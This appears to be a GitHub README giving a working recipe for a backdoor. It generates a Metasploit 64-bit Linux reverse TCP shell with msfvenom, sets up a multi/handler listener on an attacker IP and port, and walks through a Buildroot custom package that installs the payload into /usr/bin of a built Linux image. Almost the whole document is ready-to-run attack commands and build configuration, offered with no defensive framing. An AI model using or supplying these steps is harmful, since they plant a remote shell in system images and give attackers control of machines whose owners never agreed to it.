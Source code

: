 # Cybersecurity-Custom-Payload
This is a custom Payload that compiled for Linux arch x86-64 by using Metasploit and added to the Linux image by Buildroot

# Steps to Use linux/x64/shell_reverse_tcp with msfvenom:
Generate the Payload: You can generate the payload using msfvenom by specifying the target architecture and other parameters like the listener's IP (LHOST) and port (LPORT).

Example command:
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o reverse_shell.elf

Here:
-p linux/x64/shell_reverse_tcp: Specifies the payload (reverse TCP shell for 64-bit Linux).
LHOST=192.168.1.100: Set this to the IP address of your attacker's machine (the machine that will receive the reverse connection).
LPORT=4444: Set this to the port on which the attacker’s machine will listen for the reverse shell.
-f elf: Specifies the output format as ELF (Executable and Linkable Format) for Linux.
-o reverse_shell.elf: The output file name where the payload will be saved.

Set Up the Listener on Your Attacker Machine: On your attacker machine (e.g., Kali Linux), use Metasploit's multi/handler to listen for the incoming reverse shell.
msfconsole
use multi/handler
set payload linux/x64/shell_reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run

Transfer and Execute the Payload: Transfer the generated reverse_shell.elf to the target machine and execute it. Once the payload is executed on the target, it will attempt to connect back to the attacker's machine at the specified LHOST and LPORT.

Gain Access: Once the connection is established, the attacker will get a command shell from the target machine.

Compatibility:
Target Machine: The payload linux/x64/shell_reverse_tcp is specifically for 64-bit Linux systems. Ensure the target machine is running a 64-bit Linux system (x86-64 architecture).
----------------------------------------------------------------------------------
# Buildroot steps:
#create the custom package:
1- create custom_payload folder

2- create Config.in file:
	config BR2_PACKAGE_CUSTOM_PAYLOAD
    bool "Custom Payload"
    help
      This package installs a custom payload (reverse_shell.elf) into the target root filesystem.

3- create custom_payload.mk file	
	################################################################################
	# Custom Payload Package
	################################################################################
	
	# Define a custom variable for your project directory
	MY_PROJECT_DIR = /home/ahmed/Desktop/OneKey/buildroot-2024.08.2
	
	CUSTOM_PAYLOAD_VERSION = 1.0
	CUSTOM_PAYLOAD_SITE = $(MY_PROJECT_DIR)/package/custom_payload
	CUSTOM_PAYLOAD_SITE_METHOD = local
	CUSTOM_PAYLOAD_LICENSE = Proprietary
	CUSTOM_PAYLOAD_LICENSE_FILES =
	
	define CUSTOM_PAYLOAD_INSTALL_TARGET_CMDS
		$(INSTALL) -D -m 0755 $(CUSTOM_PAYLOAD_SITE)/reverse_shell.elf \
			$(TARGET_DIR)/usr/bin/reverse_shell
	endef
	
	$(eval $(generic-package))
	
4- add the reverse_shell.elf to the custom_payload folder

5- add the custom Config.in to the main Config.in :
	#custom payload
	source "package/custom_payload/Config.in"
	
6- check the custom payload in menuconfig:
	make menuconfig
	
7- build your image:
	make
